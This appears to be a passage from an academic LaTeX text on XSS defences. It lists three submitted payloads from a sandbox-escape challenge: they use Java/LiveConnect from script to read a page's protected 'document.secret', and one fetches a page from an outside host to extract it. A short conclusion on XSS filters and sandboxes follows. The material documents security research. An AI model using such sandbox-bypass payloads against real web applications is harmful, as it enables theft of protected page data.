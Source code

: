 \begin{lstlisting}[captionpos=b,caption=Java Rhinos XSS challenge submissions,label=lst:java-rhino-submissions]
// submitted by @einaros
(w=Packages.netscape.javascript.JSObject.getWindow(null))
  .eval('alert(\"'+w.getMember('document').getMember('secret')+'\")') 

//submitted by @irsdl
myJSObject=new Packages.netscape.javascript.JSObject.getWindow($);println(
  myJSObject.getMember("document").getMember("secret"));

//submitted by "akormushin"
var inputStream = new java.io.BufferedReader(new java.io.InputStreamReader(
  new java.net.URL("http://kotowicz.net/java/java.html").openStream()));
var inputLine = ""; var inputStringBuilder = new java.lang.StringBuilder();
while ((inputLine = inputStream.readLine()) != null){inputStringBuilder.append(inputLine);}
var match = /document\.secret=atob\(\'(.*)\'\);/i.exec(inputStringBuilder.toString());
javax.swing.JOptionPane.showMessageDialog(null, new java.lang.String(
  javax.xml.bind.DatatypeConverter.parseBase64Binary(match[1])))
\end{lstlisting}

  \subsection{Roundup and Conclusion}
  \label{subsection:4.11.roundup_and_conclusion}

  Modern and complex web application have a wide array of libraries and tools at their disposal that grant reliable security from script and code injection attacks. Most of the discussed tools can boast about being well-documented and easy-to-install, on top of delivering good and thorough protection against classic XSS attacks. Popular run-times and environments are fully covered with similarly well-maintained software, for example PHP developers can use the HTMLPurifier among a plenitude of other libraries and native functions, SafeHTML and AntiSamy cover .NET, while ASP and Java applications and multiple browsers are supplied with well-maintained XSS filters and protection assets. Furthermore, web and script sandboxes are on the rise. We have seen numerous approaches and various attempts to hinder scripts from accessing sensitive properties. Sadly, XSS vulnerabilities and attacks are gaining momentum and have become one of the most problematic aspects of web application and browser security~\
footnote{OWASP, \textit{Top 10 2010-Main}, \url{https://www.owasp.org/index.php/Top_10_2010-Main} (Apr 2010)}.\\

